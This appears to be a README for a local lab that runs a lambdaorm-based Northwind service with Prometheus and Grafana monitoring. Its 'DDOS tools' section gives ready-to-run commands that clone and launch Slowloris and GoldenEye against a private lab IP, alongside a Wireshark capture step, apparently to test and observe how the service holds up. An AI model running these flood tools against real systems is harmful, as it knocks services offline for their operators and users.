 # Northwind lab

## Scripts

Start:

```sh
./start.sh
```

End:

```sh
./end.sh
```

## Lab

Execute query for cli

```sh
# verify
docker exec sec-ddos_orm_1 lambdaorm execute -w ./workspace -e .env -q 'Products.having(p => max(p.price) > 100).map(p => ({ category: p.category.name, largestPrice: max(p.price) })).sort(p => desc(p.largestPrice))'

docker exec sec-ddos_orm_1 lambdaorm execute -w ./workspace -e .env -q 'Orders.filter(p => p.id === id)' -d '{"id": 2 }'

docker exec sec-ddos_orm_1 lambdaorm execute -w ./workspace -e .env -q 'Orders.filter(p => p.id === id).include(p => [p.customer.map(p => p.name), p.details.include(p => p.product.include(p => p.category.map(p => p.name)).map(p => p.name)).map(p => [p.quantity, p.unitPrice])])' -d '{"id": 2 }'
```

## Endpoints

- [swagger](http://localhost:9292/api-docs)
- [metrics](http://localhost:9292/metrics)
- [Prometheus](http://localhost:9090)
- [Grafana](http://localhost:3000)
  - Dashboards
    - [NodeJS Application Dashboard](http://localhost:3000/d/PTSqcpJWk/nodejs-application-dashboard?orgId=1&refresh=5s)

## DDOS tools

### Slowloris

```sh
cd ~/Desktop
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py 192.168.1.33 -p 9292 -s 1000 -v
```

### GoldenEye

**Execute:**

```sh
cd /Desktop/GoldenEye
./goldeneye.py http://192.168.1.33:9292/metrics -s 1000 -w 30 
```

### Test

start wireshark:

```sh
sudo wireshark
```

Filter: tcp.port == 9292
